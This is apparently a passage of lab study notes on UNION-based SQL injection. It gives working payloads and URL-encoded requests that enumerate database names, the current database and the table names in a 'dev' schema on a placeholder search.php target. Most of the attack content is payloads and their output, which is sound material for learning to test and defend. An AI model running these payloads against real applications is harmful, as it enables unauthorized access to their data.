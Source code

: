 Note: The first three databases are default MySQL databases and can be ignored during enumeration.

1. Using UNION SQL Injection to Retrieve Database Names
    

Payload:

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

Example URL:

```sql
search.php?port_code=cn'+UNION+select+1%2Cschema_name%2C3%2C4+from+INFORMATION_SCHEMA.SCHEMATA--+-
```

Output:

* Apart from default databases, "ilfreight" and "dev" databases are discovered
    

1. Finding the Current Database
    
    * Useful to know which database the web application is using
        
    * Can be found using the `SELECT database()` query
        

Payload:

```sql
cn' UNION select 1,database(),2,3-- -
```

Example URL:

```sql
http://SERVER_IP:PORT/search.php?port_code=cn'+UNION+select+1%2Cdatabase()%2C2%2C3--+-
```

Output:

* Shows the current database is "ilfreight"
    
* The "dev" database looks interesting for further enumeration
    

## **TABLES Table**

1. Purpose of the TABLES Table
    
    * Contains information about all tables across the databases
        
    * Used to retrieve table names for querying with SELECT statements
        
    * The `TABLE_NAME` column stores table names
        
    * The `TABLE_SCHEMA` column indicates the database each table belongs to
        
2. Retrieving Tables within a Specific Database
    

Payload:

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

